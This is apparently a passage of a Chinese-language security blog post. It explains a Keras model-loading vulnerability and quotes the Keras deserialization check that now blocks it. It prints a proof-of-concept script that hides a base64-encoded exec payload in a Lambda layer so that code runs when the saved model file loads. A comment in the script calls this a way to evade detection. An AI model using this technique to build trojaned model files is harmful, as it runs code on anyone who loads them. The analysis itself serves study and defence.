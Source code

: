 from tensorflow import kerasimport osimport base64# 恶意载荷：窃取用户home目录下的文件并外传malicious_code = """import osos.system('calc')"""# 将恶意代码base64编码（规避基础静态检测）encoded_code = base64.b64encode(malicious_code.encode()).decode()# 构造Lambda层注入点defmalicious_lambda(x):    exec(base64.b64decode(encoded_code))  # 反编码并执行恶意代码    return x  # 保持正常输出以隐藏攻击行为# 构建带恶意Lambda层的模型inputs = keras.Input(shape=(1,))outputs = keras.layers.Lambda(malicious_lambda)(inputs)model = keras.Model(inputs, outputs)model.compile(optimizer="adam", loss="mean_squared_error")# 保存恶意模型为HDF5文件model.save("malicious_model.h5")print("[+] 恶意模型已生成：malicious_model.h5")
```  
  
但是现在最新版本的Keras库也做了对应的检测，这个是对应校验模型是否安全的关键逻辑，位于keras\src\saving\serialization_lib.py的_retrieve_class_or_fn  
函数中:  
```
def_retrieve_class_or_fn(    name, registered_name, module, obj_type, full_config, custom_objects=None):    # If there is a custom object registered via    # `register_keras_serializable()`, that takes precedence.    if obj_type == "function":        custom_obj = object_registration.get_registered_object(            name, custom_objects=custom_objects        )    else:        custom_obj = object_registration.get_registered_object(            registered_name, custom_objects=custom_objects        )    if custom_obj isnotNone:        return custom_obj    if module:        # If it's a Keras built-in object,        # we cannot always use direct import, because the exported        # module name might not match the package structure        # (e.g. experimental symbols).        if module == "keras"or module.startswith("keras."):            api_name = module + "." + name            obj = api_export.get_symbol_from_name(api_name)            if obj isnotNone:                return obj        # Configs of Keras built-in functions do not contain identifying        # information other than their name (e.g. 'acc' or 'tanh'). This special        # case searches the Keras modules that contain built-ins to retrieve        # the corresponding function from the identifying string.        if obj_type == "function"and module == "builtins":            for mod in BUILTIN_MODULES:                obj = api_export.get_symbol_from_name(                    "keras." + mod + "." + name                )                if obj isnotNone:                    return obj            # Retrieval of registered custom function in a package            filtered_dict = {                k: v                for k, v in custom_objects.items()                if k.endswith(full_config["config"])            }            if filtered_dict:                returnnext(iter(filtered_dict.values()))        # Otherwise, attempt to retrieve the class object given the `module`        # and `class_name`. Import the module, find the class.        try:            mod = importlib.import_module(module)        except ModuleNotFoundError:            raise TypeError(                f"Could not deserialize {obj_type} '{name}' because "                f"its parent module {module} cannot be imported. "                f"Full object config: {full_config}"            )        obj = vars(mod).get(name, None)        # Special case for keras.metrics.metrics        if obj isNoneand registered_name isnotNone:            obj = vars(mod).get(registered_name, None)        if obj isnotNone:            return obj    raise TypeError(        f"Could not locate {obj_type} '{name}'. "        "Make sure custom classes are decorated with "        "`@keras.saving.register_keras_serializable()`. "        f"Full object config: {full_config}"    )
```  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqialdEzetvuOicr8Atcu8mFuuGgnuIOBjqQMXGxubwP3o6GsQ6a1HWfjs2V0fuREW6IwBpjy1uhIOw/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
当上文的恶意函数传入的时候，对应匿名函数的注册值是这样的，可以看见是这里是只处于buildins的一个模块名，属于未注册的类型  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqialdEzetvuOicr8Atcu8mFu8WPlDJERjVEPEKJDibic2ncw6KcLbtViblIEzBdEwthF9ag1gicicDAvadw/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
而在上图红框中的代码里，Keras判断了对应的函数和模块名字是否是在对应的已经注册的'config'函数中。如果是通过直接返回对应的注册函数，就没有必要在进行导入的操作了。当然这里Keras也对使用了一个包装函数@keras.saving.register_keras_serializable()  
来实现灵活性，并且添加的对应类都必须有get_config()方式，这种显示注册的方式堵死了对应的漏洞了。  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqialdEzetvuOicr8Atcu8mFuILPW9je7PeeXPiaic1yJsgibcqayVkco26ichEMjic2quC4JiaDFublLTZCA/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
```